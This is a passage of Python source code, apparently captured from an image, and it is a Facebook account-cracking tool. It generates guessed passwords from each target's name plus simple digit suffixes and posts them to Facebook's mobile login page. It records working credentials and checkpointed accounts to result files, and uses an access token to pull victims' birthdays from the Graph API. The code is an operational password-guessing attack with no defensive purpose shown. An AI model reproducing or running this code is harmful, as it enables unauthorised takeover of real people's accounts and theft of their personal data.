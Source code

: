 	def main(user):
		global loop, token
		pwx = []
		sys.stdout.write(
		      '\r \033[0;97m[%s*\033[0;97m] Cracking %s/%s OK-:%s - CP-:%s ' % (rgb,loop, len(id), len(ok), len(cp))
		); sys.stdout.flush()
		uid,name=user.split("<=>")
		for ss in name.split(" "):
			if len(ss)<3:
				continue
			else:
				if len(ss) == 1 and len(ss) == 2 and len(ss) == 3 and len(ss) == 4 or len(ss) == 5:
					pwx.append(ss+"123")
					pwx.append(ss+"1234")
					pwx.append(ss+"12345")
				else:
					pwx.append(ss+"123")
					pwx.append(ss+"12345")
		try:
			for pw in pwx:
				pw = pw.lower()
				rex = requests.post('https://mbasic.facebook.com/login.php', data={'email': uid, 'pass': pw, 'login': 'submit'}, headers={'user-agent': ua})
				xo = rex.content
				if 'mbasic_logout_button' in xo or 'save-device' in xo:
					print('\r  \033[0;92m* --> ' +uid+ '|' + pw + '       ')
					ok.append(uid+'|'+pw)
					save = open('results/OK-%s-%s-%s.txt' % (ha, op, ta),'a') 
					save.write('  * --> '+str(uid)+'|'+str(pw)+'\n')
					save.close()
					break
					continue
				if 'checkpoint' in xo:
					try:
						token = open('login.txt').read()
						url = ("https://graph.facebook.com/"+uid+"?access_token="+token)
						data = s.get(url).json()
						ttl = data['birthday'].replace("/","-")
						nama = data['name']
						print('\r  \033[0;93m* --> ' +uid+ '|' + pw + '|' + ttl)
						cp.append(uid+'|'+pw+'|'+ttl)
						save = open('results/CP-%s-%s-%s.txt' % (ha, op, ta),'a') 
						save.write('  * --> '+str(uid)+'|'+str(pw)+'|'+ttl+'\n')
						save.close()
						break
					except(KeyError, IOError):
						ttl = " "
					except:pass
					print('\r  \033[0;93m* --> ' +uid+ '|' + pw + '       ')
					cp.append(uid+'|'+pw)
					save = open('results/CP-%s-%s-%s.txt' % (ha, op, ta),'a') 
					save.write('  * --> '+str(uid)+'|'+str(pw)+'\n')
					save.close()
					break
					continue
					